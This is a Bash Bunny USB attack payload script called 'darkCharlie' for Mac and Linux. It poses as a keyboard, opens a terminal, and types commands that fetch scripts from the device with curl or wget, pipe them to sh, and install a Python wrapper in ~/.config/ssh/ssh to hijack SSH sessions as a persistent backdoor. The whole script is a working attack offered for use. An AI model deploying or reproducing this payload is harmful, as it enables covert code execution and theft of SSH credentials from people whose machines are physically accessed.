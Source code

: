 /bin/bash

# Title:     darkCharlie
# Author:    Michael Weinstein
# Target:    Mac/Linux
# Version:   0.1
#
# Create a wrapper for ssh sessions that
# will live inside ~/.config/ssh and be added
# tn the $PATH.
#
# This payload was inspired greatly by SudoBackdoor
# and much of the code here was derived (or copied
# wholesale) from that with great thanks to oXis.
#
# White            |  Ready
# Amber blinking   |  Waiting for server
# Blue blinking    |  Attacking
# Green            |  Finished

LED SETUP

#setup the attack on macos (if false, attack is for Linux)
mac=false

if [ "$mac" = true ]
then
    ATTACKMODE ECM_ETHERNET HID VID_0X05AC PID_0X021E
else
    ATTACKMODE ECM_ETHERNET HID
fi

DUCKY_LANG us

GET SWITCH_POSITION
GET HOST_IP

cd /root/udisk/payloads/$SWITCH_POSITION/

# starting server
LED SPECIAL

iptables -A OUTPUT -p udp --dport 53 -j DROP
python -m SimpleHTTPServer 80 &

# wait until port is listening (credit audibleblink)
while ! nc -z localhost 80; do sleep 0.2; done
# that was brilliant!

LED ATTACK

if [ "$mac" = true ]
then
    RUN OSX terminal
else
    RUN UNITY xterm
fi
QUACK DELAY 2000

if [ "$mac" = true ]
then
    QUACK STRING curl "http://$HOST_IP/pre.sh" \| sh
    QUACK ENTER
    QUACK DELAY 200
    QUACK STRING curl "http://$HOST_IP/darkCharlie.py" \> "~/.config/ssh/ssh"
    QUACK ENTER
    QUACK DELAY 200
    QUACK STRING curl "http://$HOST_IP/post.sh" \| sh
    QUACK ENTER
    QUACK DELAY 200
    QUACK STRING python "~/.config/ssh/ssh" --initializeScript
    QUACK ENTER
    QUACK DELAY 200
else
    QUACK STRING wget -O - "http://$HOST_IP/pre.sh" \| sh  #I think wget defaults to outputting to a file and needs explicit instructions to output to STDOUT 
    QUACK DELAY 200
    QUACK ENTER
    QUACK STRING wget -O - "http://$HOST_IP/darkCharlie.py" \> "~/.config/ssh/ssh"  #Will test this on a mac when I finish up
    QUACK DELAY 200
    QUACK ENTER
    QUACK STRING wget -O - "http://$HOST_IP/post.sh" \| sh
    QUACK DELAY 200
    QUACK ENTER
    QUACK STRING python "~/.config/ssh/ssh" --initializeScript
    QUACK DELAY 200
    QUACK ENTER
fi

QUACK DELAY 200
QUACK ENTER
QUACK DELAY 200
if [ "$mac" = true ]
then
    QUACK DELAY 5000 #seems like macs need some extra time on this
    QUACK GUI w
else
    QUACK STRING exit
    QUACK DELAY 200
    QUACK ENTER
fi
LED SUCCESS  #The Dungeons and Dragons tattoo hath rolled a 20
